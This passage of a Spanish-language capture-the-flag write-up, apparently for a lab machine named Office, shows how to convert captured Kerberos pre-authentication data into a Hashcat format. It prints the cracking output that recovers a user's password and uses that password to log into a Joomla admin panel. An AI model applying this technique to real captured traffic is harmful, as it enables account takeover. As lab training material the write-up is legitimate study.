Lo último nos interesa, y si hayamos como pasarlo a un formato legible por Hashcat o John tendremos menos complicaciones, afortunadamente buscando en internet [podemos encontrar](https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/) un blog que explica muy bien esto. Con solamente ponerlo en este formato:

`$krb5pa$18$<username>$<domain>$<pa-data>`

Podemos crackearlo con Hashcat, y en efecto:

```bash
$krb5pa$18$tstark$office.htb$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 19900 (Kerberos 5, etype 18, Pre-Auth)
Hash.Target......: $krb5pa$18$tstark$office.htb$a16f4806da05760af63c56...86f5fc
Time.Started.....: Tue Jun 25 15:28:01 2024 (1 sec)
Time.Estimated...: Tue Jun 25 15:28:02 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     5107 H/s (11.58ms) @ Accel:256 Loops:256 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344384 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4096/14344384 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:3840-4095
Candidate.Engine.: Device Generator
Candidates.#1....: newzealand -> allison1
Hardware.Mon.#1..: Temp: 76c Util: 96%

Started: Tue Jun 25 15:27:37 2024
Stopped: Tue Jun 25 15:28:03 2024
```

Intentando acceder con esta contraseña al Joomla como Administrador, nos deja:

![Joomla admin](/assets/writeups/office/5.png)
